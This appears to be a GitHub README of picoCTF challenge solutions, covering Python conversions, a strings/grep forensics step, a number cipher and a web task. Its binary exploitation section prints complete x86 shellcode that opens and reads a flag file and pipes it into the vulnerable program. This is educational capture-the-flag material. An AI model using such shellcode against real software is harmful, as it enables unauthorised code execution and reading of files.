 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

## Cryptography

#### The Numbers
This is another once where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a pythons script that takes the alphabet and the provided numbers to print out the flag. ```python the_numbers.py```

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>

Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>


## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.
